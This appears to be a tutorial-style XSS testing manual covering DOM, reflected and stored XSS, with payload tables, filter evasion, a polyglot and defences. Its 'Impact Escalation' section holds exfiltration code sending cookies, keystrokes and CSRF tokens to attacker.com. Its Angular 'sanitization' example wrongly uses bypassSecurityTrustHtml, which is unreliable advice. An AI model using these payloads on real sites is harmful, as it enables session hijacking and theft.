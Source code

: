 Advanced XSS Testing Manual

# Advanced XSS Testing Manual

## Comprehensive Guide to DOM-Based, Reflected, and Stored XSS

## 1\. DOM-Based XSS Deep Dive

### 1.1 Methodology

1.  **Source Identification**
    *   `document.location` (URL fragments)
    *   `window.name`
    *   `document.referrer`
    *   `postMessage` events
    *   Web Storage (localStorage/sessionStorage)
2.  **Sink Analysis**
    
    | Sink Type | Dangerous Methods | Example Payload |
    | --- | --- | --- |
    | HTML Injection | `innerHTML, outerHTML, document.write()` | `<img src=x onerror=alert(1)>` |
    | JS Execution | `eval(), setTimeout(), Function()` | `';alert(1);//` |
    | jQuery | `$(), html(), append()` | `<img src=x onerror=alert(1)>` |
    

### 1.2 Advanced Testing Techniques

#### HTML Sink Testing

1\. Inject: window.name = "xss\_test\_"+Math.random().toString(36).substr(2,8);
2. Open Chrome DevTools → Elements tab
3. Search DOM (Ctrl+F) for your test string
4. Analyze context:
   - Inside attributes? Try: " autofocus onfocus=alert(1) x="
   - Inside HTML? Try: <svg onload=alert(1)>
   - Inside script? Try: '-alert(1)-'

#### JavaScript Sink Testing

1\. Search all JS files (Ctrl+Shift+F) for:
   - location.hash
   - document.cookie
   - window.name
2. Set breakpoints in suspicious sinks
3. Trace variable flow through execution
4. Test progressive payloads:
   - Basic: alert(1)
   - Context-aware: '-alert(1)-'
   - Filter evasion: alert\`1\`

### 1.3 Framework-Specific Vulnerabilities

#### AngularJS XSS

<div ng-app>
  {{constructor.constructor('alert(1)')()}}
</div>

#### jQuery XSS

// Classic hashchange exploit
<iframe src="https://vulnerable.com#" onload="this.src+='<img src=x onerror=alert(1)>'">

### 1.4 Exploiting DOM XSS with Different Sources and Sinks

In principle, a website is vulnerable to DOM-based cross-site scripting if there is an executable path via which data can propagate from source to sink. Different sources and sinks have varying properties that affect exploitability:

#### Common Sink Patterns

| Sink | Exploitability | Example Payload | Lab Reference |
| --- | --- | --- | --- |
| `document.write()` | High - accepts script tags | `document.write('<script>alert(document.domain)</script>')` | DOM XSS using location.search (Solved) |
| `innerHTML` | Medium - requires alternative vectors | `element.innerHTML='<img src=1 onerror=alert(1)>'` | DOM XSS in innerHTML sink (Solved) |
| `location.hash` | Context-dependent | `#<img src=x onerror=alert(1)>` | jQuery hashchange (Solved) |

#### Framework-Specific Sinks

##### jQuery Vulnerabilities

// Attribute manipulation
"$('#backLink').attr("href", location.search);"
// Exploit: "?returnUrl=javascript:alert(document.domain)"

// Selector injection
"$(window).on('hashchange', function() {"
"    $(location.hash).scrollIntoView();"
"});"
// Exploit via iframe:
"<iframe src="https://vulnerable.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">"

##### AngularJS Vulnerabilities

<div ng-app>
  {{constructor.constructor('alert(1)')()}}
</div>
// Lab: DOM XSS in AngularJS expression (Not solved)

#### Hybrid DOM XSS Patterns

| Type | Description | Example | Lab Status |
| --- | --- | --- | --- |
| Reflected DOM | Server echoes input into JS context | `eval('var data = "'+userInput+'"')` | Reflected DOM XSS (Not solved) |
| Stored DOM | Server stores then serves malicious payload | `element.innerHTML = storedData` | Stored DOM XSS (Not solved) |

#### Complete Sink Reference

##### Native JavaScript Sinks

*   `document.write()`
*   `document.writeln()`
*   `element.innerHTML`
*   `element.outerHTML`
*   `element.insertAdjacentHTML`
*   `element.onevent`

##### jQuery Sinks

*   `add()`
*   `html()`
*   `append()`
*   `prepend()`
*   `jQuery.parseHTML()`
*   `$() (selector)`

#### Prevention Checklist

*   Avoid dynamic HTML writing with untrusted data
*   Use `textContent` instead of `innerHTML`
*   Implement Content Security Policy (CSP)
*   Sanitize inputs in framework contexts (AngularJS, React, etc.)
*   Regularly audit third-party libraries

## 2\. Reflected XSS Mastery

### 2.1 Context-Specific Payloads

| Context | Payload | Bypass Technique |
| --- | --- | --- |
| HTML Text | `<script>alert(1)</script>` | Case variation: <ScRiPt> |
| HTML Attribute | `" onmouseover=alert(1) x="` | New events: onpointerenter |
| JavaScript String | `'-alert(1)-'` | Template literals: \`${alert(1)}\` |
| URL Context | `javascript:alert(1)` | Data URI: data:text/html,<script>alert(1)</script> |

### 2.2 Advanced Filter Evasion

// Chrome XSS Auditor Bypass
<script>
location.href = 'javascript:alert%281%29';
</script>

// UTF-7 Bypass (IE)
+ADw-script+AD4-alert(1)+ADw-/script+AD4-

// JavaScript Obfuscation
eval('al'+'ert(1)');
window\['al'+'ert'\](1);

## 3\. Stored XSS Professional

### 3.1 Entry Point Discovery

*   **User Content**: Comments, profiles, uploads
*   **Metadata**: Filenames, EXIF data
*   **API Responses**: JSON/XML responses
*   **Admin Features**: Logs, moderation queues

### 3.2 Advanced Persistence Techniques

// SVG XSS
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>

// PDF Embedded JS
/Names <</JavaScript <</Names \[(alert(1))\]>>>>

// HTML5 Storage
<script>
localStorage.setItem('xss', '<img src=x onerror=alert(1)>');
location.reload();
</script>

### 3.3 Impact Escalation

// Session Hijacking
document.location='https://attacker.com/?cookie='+document.cookie;

// Keylogger
document.onkeypress = function(e) {
    new Image().src='https://attacker.com/?k='+e.key;
};

// CSRF Token Theft
fetch('/account')
    .then(r => r.text())
    .then(t => {
        let token = t.match(/csrfToken = '(.\*?)'/)\[1\];
        new Image().src='https://attacker.com/?token='+token;
    });

## 4\. XSS Prevention Checklist

### 4.1 Defense Mechanisms

| Technique | Implementation | Effectiveness |
| --- | --- | --- |
| Content Security Policy | `Content-Security-Policy: default-src 'self'` | High (when properly configured) |
| Input Validation | Whitelist allowed characters | Medium (context-dependent) |
| Output Encoding | HTML Entity Encoding: &lt;script&gt; | High (when context-aware) |
| Secure Cookies | `Set-Cookie: HttpOnly; Secure` | Mitigates impact |

### 4.2 Framework Protections

// React (JSX auto-escapes)
<div>{userInput}</div>

// Angular (sanitization)
import { DomSanitizer } from '@angular/platform-browser';
this.safeHtml = this.sanitizer.bypassSecurityTrustHtml(userInput);

// Vue (v-html directive)
<div v-html="sanitizedContent"></div>

## 5\. Professional Testing Tools

### 5.1 Automated Scanning

*   **Burp Suite**: DOM Invader extension
*   **ZAP**: Active scanner with XSS rules
*   **XSStrike**: Advanced detection engine

### 5.2 Manual Testing Utilities

// XSS Polyglot
javascript:/\*--></title></style></textarea></script><xmp><svg/onload='+/"/+/onmouseover=1/+/\[\*/\[\]/+alert(1)//'>

// Cheatsheets
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

**Legal Note:** Always obtain proper authorization before testing. This guide is for educational purposes only.

Last updated: 2023-11-15 | Based on OWASP Top 10 2021


## Which Sinks Can Lead to DOM-XSS Vulnerabilities?

The following are some of the main sinks that can lead to **DOM-based XSS** vulnerabilities:

- `document.write()`
- `document.writeln()`
- `document.domain`
- `element.innerHTML`
- `element.outerHTML`
- `element.insertAdjacentHTML`
- `element.onevent` *(e.g., `onclick`, `onerror`, etc.)*

### jQuery Sinks That Can Lead to DOM-XSS:

The following jQuery functions are also **sinks** that can introduce DOM-XSS vulnerabilities:

- `add()`
- `after()`
- `append()`
- `animate()`
- `insertAfter()`
- `insertBefore()`
- `before()`
- `html()`
- `prepend()`
- `replaceAll()`
- `replaceWith()`
- `wrap()`
- `wrapInner()`
- `wrapAll()`
- `has()`
- `constructor()`
- `init()`
- `index()`
- `jQuery.parseHTML()`
- `$.parseHTML()`

